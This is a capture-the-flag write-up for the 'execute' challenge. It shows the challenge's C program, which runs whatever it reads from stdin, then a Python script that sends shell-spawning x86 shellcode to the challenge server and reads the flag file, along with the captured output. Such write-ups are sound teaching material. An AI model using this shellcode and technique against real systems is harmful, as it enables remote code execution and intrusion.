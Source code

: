 execute
=======

Flag: **well_that_executed_quickly**

![execute](images/execute.png "execute challenge introduction")

The challenge flavortext says "This [program](execute.c "execute.c")
(x86 Linux) will execute everything you give him, can you find the
flag? `nc ctf.stratum0.net 3333`".

The linked source code shows a short program that reads data from
`stdin` into a buffer and then jumps to and executes the contents of
that buffer:

    #include <stdio.h>

    int main(int argc, char *argv[]) {
      char buf[0x1000];
      fgets(buf, sizeof(buf), stdin);
      ((void (*)(void)) buf)();
    }

A flag is stored somewhere on the filesystem of the machine hosting
this networked program, so we'd like to send the program a payload
that will spawn a shell, then use the shell to locate and retrieve the
contents of that flag file.

Using any old shellcode will do:

    import socket

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('ctf.stratum0.net', 3333))

    shellcode = "\xb8\x32\x2f\x73\x68\xc1\xe8\x08\x50\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\x89\xd0\x04\x0b\xcd\x80\n"
    s.send(shellcode)
    print "sent shellcode"
    s.send("ls\n")
    print s.recv(4096)
    s.send("cat flag.txt\n")
    print s.recv(4096)

Running our exploit, we get:

    $ python exploit_networked.py
    sent shellcode
    execute # Output of ls
    flag.txt

    flag{well_that_executed_quickly} # Output of cat.

The flag is thus `well_that_executed_quickly`.

[« Return to challenge board](../README.md "Return to challenge board")

